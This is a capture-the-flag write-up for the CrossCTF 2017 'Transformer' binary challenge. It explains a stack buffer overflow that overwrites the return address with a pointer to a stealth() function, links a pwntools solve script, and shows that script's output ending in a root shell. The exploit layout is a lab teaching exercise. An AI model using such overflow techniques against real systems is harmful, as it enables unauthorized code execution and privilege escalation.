 # CrossCTF_2017: Transformer

**Category:** Binary
**Points:** 100
**Description:**

>192.168.0.31:10006 [File here](/problem-static/binary/transformer/transformer)

## Write-up
This is a really simple one and is easily defeated by nopping most parts of the binary. In this case, we can exploit this by buffer overflowing word 1 with `256` bytes of maximum bytes, followed by `4` bytes of junk, followed by `4` bytes of pointer pointing to `stealth()`.

This can be automated with pwntools and [Python](solve.py)

    $ ./solve.py 
    [*] '/root/repos/crossctf_2017_writeup/finals/transformer_100/transformer'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE
    [+] Starting program './transformer': Done
    [ERROR] Neither 'qemu-i386' nor 'qemu-i386-static' are available
    [+] Are we r00ted?
    [*] Switching to interactive mode
    uid=0(root) gid=0(root) groups=0(root)
    $ cat flag.txt

Therefore, the flag is ``.
